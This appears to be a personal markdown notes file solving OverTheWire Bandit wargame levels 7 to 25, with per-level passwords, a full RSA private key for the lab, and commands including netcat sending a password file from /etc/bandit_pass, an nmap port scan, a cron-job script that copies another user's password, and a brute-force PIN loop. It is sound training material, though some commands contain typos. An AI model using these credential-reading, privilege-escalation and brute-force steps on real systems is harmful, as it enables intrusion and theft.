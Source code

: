 ## lvl

[Bandit | Over The Wire - Wargames](https://overthewire.org/wargames/bandit/)

## lvl 7 -> 8 
    TESKZC0XvTetK0S9xNwm25STk5iWrBvP
## lvl 11 -> 12         

    JVNBBFSmZwKKOP0XbFXOoW8chDz5yVRv


    find . -name "*.txt" -exec -wc -l 

## lvl 12 -> 13 
    psw = wbWdlBxEir4CaE8LaPhauuOo6pwRmrDw

    xxd -r to reverse hexdump to bin
    gzip -d file.gz -> bzip2 -> tar -xfv file -> cat textfile

use comaand file to understand which is the decompression algo to use

## lvl 13 -> 14

    ssh -p 2220 -i ssh.key bandit14@overthe...

## lvl 14 -> 15
send a file to host:port

    nc -N localhost 30000 < /etc/bandit_pass/bandit14

    pwd = jN2kgmIXJ6fShzhT2avhotn4Zcka6tnt

## lvl 15 -> 16
to create a ssl connection 
openssl s_client -connect localhost:30001

pwd = JQttfApK4SeyHwDlI9SXGR50qclOAil1

## lvl 16 -> 17
scan ports 

    nmap -T4 -sV -p 31000-32000

    openssl s_client -connect localhost:31790

for creating file use `nano`

    -----BEGIN RSA PRIVATE KEY-----
    MIIEogIBAAKCAQEAvmOkuifmMg6HL2YPIOjon6iWfbp7c3jx34YkYWqUH57SUdyJ
    imZzeyGC0gtZPGujUSxiJSWI/oTqexh+cAMTSMlOJf7+BrJObArnxd9Y7YT2bRPQ
    Ja6Lzb558YW3FZl87ORiO+rW4LCDCNd2lUvLE/GL2GWyuKN0K5iCd5TbtJzEkQTu
    DSt2mcNn4rhAL+JFr56o4T6z8WWAW18BR6yGrMq7Q/kALHYW3OekePQAzL0VUYbW
    JGTi65CxbCnzc/w4+mqQyvmzpWtMAzJTzAzQxNbkR2MBGySxDLrjg0LWN6sK7wNX
    x0YVztz/zbIkPjfkU1jHS+9EbVNj+D1XFOJuaQIDAQABAoIBABagpxpM1aoLWfvD
    KHcj10nqcoBc4oE11aFYQwik7xfW+24pRNuDE6SFthOar69jp5RlLwD1NhPx3iBl
    J9nOM8OJ0VToum43UOS8YxF8WwhXriYGnc1sskbwpXOUDc9uX4+UESzH22P29ovd
    d8WErY0gPxun8pbJLmxkAtWNhpMvfe0050vk9TL5wqbu9AlbssgTcCXkMQnPw9nC
    YNN6DDP2lbcBrvgT9YCNL6C+ZKufD52yOQ9qOkwFTEQpjtF4uNtJom+asvlpmS8A
    vLY9r60wYSvmZhNqBUrj7lyCtXMIu1kkd4w7F77k+DjHoAXyxcUp1DGL51sOmama
    +TOWWgECgYEA8JtPxP0GRJ+IQkX262jM3dEIkza8ky5moIwUqYdsx0NxHgRRhORT
    8c8hAuRBb2G82so8vUHk/fur85OEfc9TncnCY2crpoqsghifKLxrLgtT+qDpfZnx
    SatLdt8GfQ85yA7hnWWJ2MxF3NaeSDm75Lsm+tBbAiyc9P2jGRNtMSkCgYEAypHd
    HCctNi/FwjulhttFx/rHYKhLidZDFYeiE/v45bN4yFm8x7R/b0iE7KaszX+Exdvt
    SghaTdcG0Knyw1bpJVyusavPzpaJMjdJ6tcFhVAbAjm7enCIvGCSx+X3l5SiWg0A
    R57hJglezIiVjv3aGwHwvlZvtszK6zV6oXFAu0ECgYAbjo46T4hyP5tJi93V5HDi
    Ttiek7xRVxUl+iU7rWkGAXFpMLFteQEsRr7PJ/lemmEY5eTDAFMLy9FL2m9oQWCg
    R8VdwSk8r9FGLS+9aKcV5PI/WEKlwgXinB3OhYimtiG2Cg5JCqIZFHxD6MjEGOiu
    L8ktHMPvodBwNsSBULpG0QKBgBAplTfC1HOnWiMGOU3KPwYWt0O6CdTkmJOmL8Ni
    blh9elyZ9FsGxsgtRBXRsqXuz7wtsQAgLHxbdLq/ZJQ7YfzOKU4ZxEnabvXnvWkU
    YOdjHdSOoKvDQNWu6ucyLRAWFuISeXw9a/9p7ftpxm0TSgyvmfLF2MIAEwyzRqaM
    77pBAoGAMmjmIJdjp+Ez8duyn3ieo36yrttF5NSsJLAbxFpdlc1gvtGCWW+9Cq0b
    dxviW8+TFVEBl1O4f7HVm6EpTscdDxU+bCXWkfjuRb7Dy9GOtt9JPsX8MBTakzh3
    vBgsyi/sN3RqRBcGU40fOoZyfAMT8s1m/uYv52O6IgeuZ/ujbjY=
    -----END RSA PRIVATE KEY-----

change permissions give read rights only

    chmod 700 ssh.private 

## lvl 17 -> 18

    pwd = hga5tuuCLF6fFzUpnagiMN8ssu9LFrdg

## lvl 18 -> 19
    ssh -p 2220 bandit18@bandit.labs.overthewire.org "cat ~/readme"

    pwd = awhqfNnAbc1naukrpqDYcF95h7HoMTrC

## lvl 19 -> 20
    ./bandit20-do cat /etc/bandit_pass/bandit20

    pwd = VxCazJaVykI6W36BkBU0mJTCM8rR95XT

## lvl 20 -> 21

    pwd = NvEJF7oVjkddltPSrdKEFOllh9V1IBcq

nc netcat create server with listening on port portnumber

    echo "pwd" | nc -l -p portnumber 

reads data from portnumber and print the next password

    ./suconnect portnumer 


## lvl 21 -> 22
    pwd = WdDozAdTM2z9DiFEQ2mGlwngMfj4EZff

find cron job using 

    ls -la  /etc/cron.d/

read what it does (job for bandit22)
it says it run a script from 

    usr/bin/cronjob_bandit22.sh
read the file

    cat usr/bin/cronjob_bandit22.sh
it says outputs something to 

    /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv

read it

    cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv


## lvl 22 -> 23
    pwd = QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G

find cronojob file from /etx/cron.d/ for bandit23
read the script from /usr/

    echo I am user bandit23 | md5sum | cut -d ' ' -f 1
    cat /tmp/8ca319486bfbbc3663ea0fbe81326349

# banidt 23 -> 24

    pwd = VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

read the cron.d file and find the folder where we need copy the script

    /etc/cron.d/
    /usr/bin/conjob_... .sh

    /var/spool/bandit24/foo

create a temp dir using 

    mktemp -d

create a bash script

    !#/bin/bash

    mkdir -p /tmp/THIS_FOLDER/$(cat /etc/bandit_pass/bandit24)

change permissions of the folder, of the script.sh

    chmod 777 folder
    chmod +rx script.sh
    cp script.sh /var/spool/bandit24/foo/script.sh

wait for a minute

## lvl 24 -> 25
~~~bash
    #!/bin/bash

    for i in {0000..9999}; do 
        output=$(echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar ${i}" | nc localhost 30002)
        echo $output $i
        if [[ "$output" != *"Try again"* ]];
        then echo "$output"
        fi
    done;
~~~
~~~sh
    #!/bin/bash

    for i in {0000..9999}; do 
        echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar ${i}" >> output.txt
    done;

    cat output.txt | nc localhost 30002
~~~

    chmod +x script.sh
    cat output.txt | nc localhost 30002 > results.txt

## lvl 25 -> 26



